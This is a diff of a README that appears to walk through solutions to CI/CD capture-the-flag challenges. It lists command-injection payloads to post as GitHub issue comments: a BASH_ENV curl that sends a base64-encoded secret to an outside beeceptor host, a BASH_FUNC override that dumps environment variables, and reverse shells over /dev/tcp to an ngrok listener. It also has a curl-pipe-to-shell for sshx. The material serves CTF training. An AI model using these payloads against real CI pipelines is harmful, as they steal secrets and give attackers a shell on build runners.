

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -138,6 +138,7 @@ PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
 > - [Beeceptor](https://beeceptor.com/)
 > - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
+Body Issue Comment:
 ``` bash
 Not a release :(
 BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
@@ -149,6 +150,7 @@ BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base6
 
 
 ### Using BASH_FUNC
+Body Issue Comment:
 ``` bash
 Not a release :(
 BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
@@ -160,68 +162,54 @@ BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
 
 
 # Chall 4
-## Setup (client side)
-### Listen with NC
-
+1. Open a terminal for setup (client side)
+2. Listen with NC
 ``` bash
 nc -lv 4444
 ```
-
-### Setup ngrok
-
+3. setup ngrok
 ``` bash
 ngrok tcp 4444
 ```
-
-### Get ngrok IP to build payload
-
+4. Get ngrok IP to build payload
 ``` bash
 dig <NGROK_DNS>
 ```
 
-## Payload
 Body Issue Comment:
 ``` bash
+Where is my bash ??
 $(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
 ```
+5. Investigate in the runner
+The directory `/home/runner/work/_temp` look interesting...
 
-## Fancy shell for lazy DevOps :)
 
-``` bash
-curl -sSf https://sshx.io/get | sh -s run
-```
-
-## Let's investigate!
-
-The directory `/home/runner/work/_temp` look interesting...
- <p align="right">(<a href="#readme-top">back to top</a>)</p>
+> [!TIP]
+> Fancy shell for lazy DevOps :)
+> ``` bash
+> curl -sSf https://sshx.io/get | sh -s run
+> ```
+<p align="right">(<a href="#readme-top">back to top</a>)</p>
 
 
 
 
 
 # Chall 5
-
-### Listen with NC
-
+1. Open a terminal for setup (client side)
+2. Listen with NC
 ``` bash
 nc -lv 4444
 ```
-
-### Setup ngrok
-
+3. setup ngrok
 ``` bash
 ngrok tcp 4444
 ```
-
-### Get ngrok IP to build payload
-
+4. Get ngrok IP to build payload
 ``` bash
 dig <NGROK_DNS>
 ```
-
-## Payload
-
 Body Issue Comment:
 ``` bash
 ; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
````
Also changed, not shown: other parts of README.md (+7 -11 lines).
